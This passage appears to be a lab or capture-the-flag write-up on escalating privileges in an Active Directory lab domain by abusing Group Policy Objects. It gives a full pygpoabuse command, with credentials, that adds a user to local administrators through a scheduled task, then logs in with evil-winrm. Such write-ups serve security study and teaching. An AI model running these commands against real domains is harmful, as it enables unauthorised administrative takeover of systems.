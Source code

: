 Let's figure out first the GPOs that we can abuse, we can either look that up in the bloodhound or by using the [gpoowned](https://github.com/X-C3LL/GPOwned) tool.

<img src="/images/Pasted image 20231231111744.png">


Then we can craft our command to abuse the scheduled tasks

```
$ pygpoabuse baby2.vl/gpoadm:'Password123!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -dc-ip 10.10.78.135 -v -command 'net localgroup administrators GPOADM /add'
```

And we should be able to log in as the user `gpoadm` using `evil-winrm`

<img src="/images/Pasted image 20231231112727.png">